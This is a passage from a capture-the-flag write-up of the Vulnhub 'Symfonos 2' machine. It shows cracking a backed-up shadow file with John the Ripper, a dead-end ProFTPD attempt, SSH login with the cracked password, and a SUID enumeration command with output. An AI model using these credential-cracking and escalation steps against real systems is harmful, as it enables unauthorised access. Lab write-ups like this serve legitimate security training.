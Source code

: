 Now we have it still confuse how i know about the backup shadow file check the `log.txt` again screenshot below.

![image](https://user-images.githubusercontent.com/69868171/157867530-c1a702e5-db49-4f2d-8327-076b9b1abbe0.png)

Now you have it.

![image](https://user-images.githubusercontent.com/69868171/157867647-0b48bc72-4b95-4ee7-b04f-38a431879bb6.png)

Now we have the hashes let crack it with `john the ripper` when running in the background let try something on the `proFTPD` exploit to see if we can get RCE.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos2]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt shadow.bak
```

Now back to `proFTPD` RCE.

![image](https://user-images.githubusercontent.com/69868171/157868391-fb8cbd12-1fb3-4fff-a747-57f928f3b837.png)


But seems it a deadend we have no write access, permission on `/var/wwww/html` now back to the shadow file that we are cracking.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos2]
└─$ john --show shadow.bak
aeolus:sergioteamo:18095:0:99999:7:::

1 password hash cracked, 2 left
```

Only one of the user hash was cracked which is `aeolus` time to SSH into the target XD.

![image](https://user-images.githubusercontent.com/69868171/157872695-df0e24c4-a76f-4f0b-80f2-bd50c0b2c997.png)

We are in now more enumeration. Checkig `SUID` and `Sudo` .

```
aeolus@symfonos2:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/exim4
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/bin/mount
/bin/su
/bin/ping
/bin/umount
```
